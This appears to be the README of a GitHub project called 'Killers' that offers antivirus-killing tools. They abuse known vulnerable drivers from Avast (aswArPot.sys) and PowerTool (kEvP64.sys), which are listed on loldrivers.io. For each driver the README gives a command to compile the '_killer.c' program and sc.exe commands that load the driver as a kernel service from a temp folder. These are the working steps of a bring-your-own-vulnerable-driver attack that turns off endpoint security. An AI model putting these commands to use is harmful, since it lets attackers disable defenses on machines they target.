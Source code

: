 # Killers

<p align="center">
  <img src="https://github.com/xalicex/Killers/blob/main/killers.jpg"  width=40% height=40% >
</p>

## Avast

https://www.loldrivers.io/drivers/57fc510a-e649-4599-b83e-8f3605e3d1d9/

```
x86_64-w64-mingw32-gcc -o avast_killer.exe avast_killer.c 
sc.exe create aswArPot.sys binPath= C:\windows\temp\aswArPot.bin type= kernel && sc.exe start aswArPot.sys
```

## PowerTool 

https://www.loldrivers.io/drivers/fe2f68e1-e459-4802-9a9a-23bb3c2fd331

```
x86_64-w64-mingw32-gcc -o PowerTool_killer.exe PowerTool_killer.c 
sc.exe create kEvP64.sys binPath= C:\windows\temp\kEvP64.bin type= kernel && sc.exe start kEvP64.sys
```
PowerTool official website : http://powertool.s601.xrea.com/

Download page : https://www.softpedia.com/get/Antivirus/Removal-Tools/ithurricane-PowerTool.shtml
